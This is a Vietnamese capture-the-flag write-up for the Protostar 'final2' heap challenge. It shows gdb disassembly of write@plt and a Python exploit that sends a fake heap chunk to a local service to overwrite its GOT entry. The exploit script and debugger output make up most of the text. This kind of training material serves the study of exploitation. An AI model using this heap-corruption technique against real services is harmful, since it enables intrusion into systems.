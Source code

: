 - Mục tiêu của chúng ta ở bài này là ghi vào `write@plt` do đó cần kiểm tra:
```
0x0804be01 <get_requests+186>:  call   0x8048dfc <write@plt>
```

```bash
(gdb) disass 0x8048dfc
Dump of assembler code for function write@plt:
0x08048dfc <write@plt+0>:       jmp    *0x804d41c
0x08048e02 <write@plt+6>:       push   $0x68
0x08048e07 <write@plt+11>:      jmp    0x8048d1c
End of assembler dump.
(gdb) x/wx 0x804d41c
0x804d41c <_GLOBAL_OFFSET_TABLE_+64>:   0xb7f53c70
```

- Có 1 trick khá hay ở điểm này. Đấy là chương trình sẽ chờ đợi chúng ta liên tục gửi cho đến khi nào không gửi nữa thì nó mới chạy đến breakpoint ở `write@plt`. Do vậy trong chương trình python chúng ta có thể dùng raw_input, hoặc xóa luôn vòng lặp while bên dưới, hoặc đơn giản là tạo ra 1 cái bug trong chương trình(vì python là ngôn ngữ thông dịch)

```py
import socket
import struct
import telnetlib
REQSZ = 128
s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2993))

def pad(m):
    padding = "\x00"*(REQSZ - len(m))
    _m = "FSRD" + m + padding
    return _m[:REQSZ]

s.send(pad('/ROOT/'+'/'*128))
fake_chunk = struct.pack("I", 0xfffffffc) + struct.pack("I", 0xfffffffc)
fake_chunk += struct.pack("I", 0x804d41c-0xc) + struct.pack("I", 0x804e020)
s.send(pad("ROOT/"+fake_chunk))

*************************aabcdef*************************
while True:
    msg = raw_input("> ")
    if msg:
        print 'msg: %r' % pad(msg)
        s.send(pad(msg))
    else:
        break

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Do đó mà ta có thể debug được. Sau khi lược bớt các dòng thừa thãi ta có:
```gdb
root@protostar:/tmp# gdb -p 1589
Breakpoint 1 at 0x804bd40: file final2/final2.c, line 27.
Breakpoint 2 at 0x804be25: file final2/final2.c, line 58.
Breakpoint 3 at 0x804be13: file final2/final2.c, line 55.
Breakpoint 4 at 0x804be01: file final2/final2.c, line 54.
[New process 4939]
[Switching to process 4939]
The current source language is "auto; currently c".
buf: /ROOT///////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
Dst: /ROOT///////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```
